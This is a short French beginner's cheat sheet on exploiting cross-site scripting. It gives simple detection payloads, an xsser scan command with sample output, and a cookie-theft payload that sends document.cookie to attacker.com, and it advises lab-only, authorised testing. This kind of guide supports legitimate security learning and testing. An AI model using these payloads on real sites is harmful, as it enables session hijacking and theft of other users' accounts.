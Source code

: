 # XSS (Cross-Site Scripting)

## Objectif
Exploiter une faille XSS pour injecter du code JavaScript malveillant dans une page web consultée par d'autres utilisateurs.

---

## Commandes essentielles et explications

### 1. Détection de la vulnérabilité
- Injecter un payload simple dans un champ ou un paramètre d'URL :
```
<script>alert('XSS')</script>
```
- **À quoi ça sert ?** Si une alerte apparaît, la page est vulnérable à l'injection de scripts.
- **Astuce débutant** : Tester aussi avec des variantes (balises img, onerror, etc.).

### 2. Utilisation d'outils automatisés
```bash
xsser --url "http://target.com/page.php?q=test"
```
- **xsser** : Outil pour détecter et exploiter les failles XSS.
- **Exemple de sortie** :
```
[INFO] XSS vulnerability found in parameter 'q'
```
- **À surveiller** : Paramètres vulnérables, type de XSS (reflected, stored, DOM).

### 3. Exploitation avancée
- Vol de cookies :
```
<script>fetch('http://attacker.com/?c='+document.cookie)</script>
```
- Déclenchement sur événement :
```
<img src=x onerror=alert('XSS')>
```
- **À surveiller** : Exécution du script, fuite de données, impact sur d'autres utilisateurs.

---

## Conseils pour débutants
- Toujours commencer par des payloads simples, puis tester des variantes.
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Ne pas négliger les protections côté client (WAF, CSP, etc.).
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/) 